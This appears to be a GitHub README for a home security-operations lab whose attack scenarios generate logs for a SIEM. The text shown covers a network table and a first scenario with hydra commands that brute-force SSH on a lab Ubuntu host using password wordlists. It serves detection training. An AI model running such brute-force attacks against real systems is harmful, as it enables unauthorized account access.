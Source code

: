 # Attack Scenarios with Log Collection Examples

## Overview

This document provides detailed attack scenarios designed to generate realistic security logs that will be collected by your SIEM (192.168.1.20). Each scenario includes:
- Attack commands
- Expected log entries
- Detection queries for Kibana
- Incident response steps

## 🎯 Lab Network Reference

| System | IP Address | Purpose |
|--------|------------|---------|
| SOC-DC1 | 192.168.1.10 | Domain Controller |
| SIEM-ELK | 192.168.1.20 | Log collection & analysis |
| WIN10-VULN | 192.168.1.30 | Windows target |
| UBUNTU-VULN | 192.168.1.40 | Linux target |
| KALI-ATTACKER | 192.168.1.50 | Attack source |

**SIEM Dashboard**: http://192.168.1.20:5601

---

## Scenario 1: SSH Brute Force Attack

### 🎯 Objective
Simulate a brute force attack against SSH server and detect it in SIEM.

### 🔴 Attack Steps (From Kali - 192.168.1.50)

```bash
# Create small password list
cat > /tmp/passwords.txt << EOF
admin
password
123456
ubuntu
test
letmein
Password123!
EOF

# Launch brute force attack
hydra -l admin -P /tmp/passwords.txt ssh://192.168.1.40 -t 4

# Alternative: More aggressive attack
hydra -l admin -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.40 -t 10
```
